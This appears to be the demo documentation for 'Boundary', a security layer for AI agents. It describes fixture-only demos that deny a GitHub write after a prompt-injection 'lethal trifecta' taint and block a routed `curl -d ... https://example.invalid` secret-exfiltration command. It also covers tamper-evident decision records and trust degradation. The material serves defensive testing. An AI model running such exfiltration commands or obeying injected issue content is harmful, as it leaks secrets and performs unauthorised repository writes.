

# Boundary Demos

Boundary's public demo story is a two-lane proof spine, not a broad adapter
tour. Each lane is fixture-only, requires no credentials, makes no network
calls, performs no live mutation, and emits a decision record.

| Lane | Status | Command | Dangerous action | Success signal |
| --- | --- | --- | --- | --- |
| Lane 1 - MCP | Production route | `boundary demo github-lethal-trifecta` | Write-after-taint GitHub action | `actual=DENY`, `upstream_called=false`, `reason=lethal_trifecta_detected` |
| Lane 2 - Command Boundary | Delivered preview, routed-only | `boundary demo command-secret-exfil` | Routed secret-exfiltration command | `actual=DENY`, `executed=false`, `class=C6` |



## Run Both Lanes

```bash
boundary demo github-lethal-trifecta
boundary demo command-secret-exfil
```

To keep a verifiable decision-record file for each lane:

```bash
boundary demo github-lethal-trifecta --json --out demo.json
boundary demo command-secret-exfil --out demo.txt
boundary verify-record github-lethal-trifecta-artifacts/decision-record.json
boundary verify-record command-secret-exfil-artifacts/decision-record.json
```

`decision record path:` points to a single JSON object that
`boundary verify-record` consumes. `decision record log:` points to the
multi-record JSONL audit log written beside it.

## Lane 1 - MCP

`boundary demo github-lethal-trifecta` is the MCP production-route proof lane. A
fixture GitHub issue creates untrusted context, then a private-repository write
is denied before upstream GitHub execution.

Read the lane detail:
[DEMO_GITHUB_LETHAL_TRIFECTA.md](./DEMO_GITHUB_LETHAL_TRIFECTA.md).

## Lane 2 - Command Boundary

`boundary demo command-secret-exfil` is the Command Boundary delivered-preview
proof lane. A routed `curl -d [redacted] https://example.invalid` command is
classified as secret exfiltration and denied before execution.

Read the lane detail:
[command-boundary/DEMO.md](./command-boundary/DEMO.md).

## Supporting demos

These run alongside the two-lane proof spine. They are fixture-only, require no
credentials, and make no network calls or live mutations.

### Tamper-evidence (forge the receipt)

`boundary demo tamper-evidence` runs the "forge the receipt" sequence as one
command: it emits a hash-verifiable decision record, verifies it, tampers a
single field (the verdict, `deny` -> `allow`), and shows that re-verification
fails with the exact `decision_hash mismatch: got ... want ...` line. It is the
one-command form of the manual sequence; the README documents the manual steps
as well.

```bash
boundary demo tamper-evidence
boundary demo tamper-evidence --json
```

This demonstrates **hash-verifiable** tamper detection. It is **not**
tamper-proof or immutable storage: it detects a forged record, it does not
prevent one from being written elsewhere, and it does not attest that the
deployment topology forced the route through Boundary.

### Adaptive-trust degradation

`boundary demo trust-degradation` is a local-only demo in which repeated denied
actions degrade an agent's trust from TRUSTED to ISOLATED. By default the raw
`governance_decision` audit records are suppressed so the narrative table reads
clean; `boundary demo trust-degradation --show-records` streams them (JSON) to
stderr.

## What These Demos Prove

- Boundary can deny the two tested dangerous action patterns when the route is
  forced through Boundary.
- The MCP lane can deny write-after-taint before upstream execution.
- The Command Boundary lane can deny a routed command before local execution.
- Both lanes emit a hash-verifiable decision record for the governed verdict.
- The tamper-evidence demo shows a forged decision record fails re-verification
  on a decision_hash mismatch.

## What They Do Not Prove

- They do not prove every malicious prompt is blocked.
- They do not prove protection for direct, unrouted tool access.
- They do not prove production deployment bypass resistance.
- They do not promote Command Boundary, Edit Boundary, Secure GitHub, or any
  other preview surface to production.
- They do not make live network calls or mutate real systems.
- The tamper-evidence demo does not prove tamper-proof or immutable storage; it
  detects a forged record, it does not prevent one from being written elsewhere.
